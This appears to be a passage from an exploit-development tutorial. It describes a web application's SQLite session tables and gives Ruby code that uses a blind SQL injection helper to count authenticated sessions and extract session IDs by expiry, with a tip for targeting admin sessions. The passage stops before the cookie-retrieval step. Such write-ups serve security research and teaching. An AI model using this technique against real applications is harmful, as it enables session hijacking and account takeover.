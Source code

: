 ## <span id='58adb7987ef3ebb0891820242143bb4d'>a word about session management</span>

For managing sessions, two tables are created using the following queries

```
CREATE TABLE IF NOT EXISTS sessions (id INTEGER PRIMARY KEY AUTOINCREMENT, sessionid TEXT NOT NULL, tstamp TIMESTAMP NOT NULL, UNIQUE(sessionid))
CREATE TABLE IF NOT EXISTS sessionsvariables (id INTEGER REFERENCES sessions(id) ON DELETE CASCADE, name TEXT NOT NULL, value TEXT NOT NULL, PRIMARY KEY (id, name))
```

- `sessions` holds the actual cookie, in the `sessionid` field.
- for authenticated users, `sessionsvariables` contains many rows per session, one has `name=expire` and `value` being an expiration time, one having `name=username` and value being the username, and so on.

## <span id='d805c5ef0dda336d58014183916db15b'>Plan for our implementation</span>

Let's count the number of existing authenticated sessions, by counting the number of expiration times that exist in the database:

```ruby
session_count = @sqli.run_sql("select count(1) from sessionsvariables where name='expire'").to_i
```

So, the plan is:
- Retrieve the `id`s of the sessions, sorted by expiration time (newest first).
- Filter them (if the user chose to only test admin/privileged sessions).
- Start retrieving the session cookies associated with each `id`.

Let's start by retrieving the `id`s of the sessions, sorted by expiration time.

Simplified code:

```ruby
digit_range = ('0'..'9')
session_ids = session_count.times.map do |i|
  id = @sqli.run_sql("select id from sessionsvariables where name='expire' " \
  "order by cast(value as int) desc limit 1 offset #{i}", output_charset: digit_range)
  # other code here, checking if the user is an admin if only admins should be returned
  id
end
```

The `digit_range` passed to `run_sql` is used to speed-up the process, since we know `id`s are integers, there are bits we already know, we don't need to leak 8 bits from each byte, by specifying the range of characters,
the injection will only leak bits that change between bytes in that range.

I will skip filtering for admins, you will find it in the final module, it can be done by checking if there is an entry having `name=rwa` and `value=1`, which means full access.

Now, retrieving actual cookies:
